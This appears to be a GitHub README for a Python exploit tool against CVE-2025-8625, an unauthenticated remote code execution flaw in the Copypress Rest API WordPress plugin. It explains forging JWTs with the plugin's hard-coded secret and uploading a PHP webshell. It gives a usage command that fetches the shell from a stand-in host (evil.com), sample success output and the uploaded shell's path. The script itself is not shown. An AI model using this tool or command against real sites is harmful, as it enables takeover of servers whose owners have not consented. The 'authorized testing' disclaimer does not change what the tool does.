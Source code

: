 # CVE-2025-8625
Copypress Rest API 1.1 - 1.2 - Missing Configurable JWT Secret and File-Type Validation to Unauthenticated Remote Code Execution
# 🛡️ Copypress Rest API 1.1 - 1.2 RCE Exploit

## 📝 Description

The Copypress Rest API plugin for WordPress (versions 1.1 to 1.2) is vulnerable to **Remote Code Execution** via the `copyreap_handle_image()` function.  
The plugin uses a hard-coded JWT signing key when no secret is set and does not validate file types, allowing unauthenticated attackers to forge tokens and upload arbitrary files (such as PHP shells) through the image handler endpoint.

- **CVE:** CVE-2025-8625  
- **CVSS:** 9.8 (Critical)

---

## 🚀 Script Overview

**Script name:** `CVE-2025-8625.py`  
This Python script automates exploitation of the vulnerability, allowing you to generate a valid JWT, send a crafted request, and upload a malicious file (webshell) to the vulnerable WordPress site.

---

## ⚙️ Usage

```bash
python CVE-2025-8625.py -u https://target.com -shell https://evil.com/shell.php
```

- `-u` / `--url`: Target WordPress site URL
- `-shell` / `--shell`: Direct link to your webshell or malicious PHP file

**Example output:**
```
JWT: eyJ0eXAiOiJKV1QiLCJhbGciOi...
HTTP 201: {"created":true,"id":123,"message":"Success"}
Exploit success! Check your shell upload.
```

---

## 🏆 Features

- Generates a valid JWT using the plugin's hardcoded secret
- Bypasses authentication to upload arbitrary files
- Provides clear output for success/failure of exploitation
- Simple command-line interface

---

## 📂 Shell Upload Location

**Shell uploaded successfully! 🎉**  
Shell path example:

```
https://target.com/wp-content/uploads/2025/10/shell.php
```

---

## ⚠️ Disclaimer

This tool is for **educational and authorized penetration testing** purposes only.  
Usage against targets without explicit permission is illegal.

---

***By: Nxploited (Khaled Alenazi)***

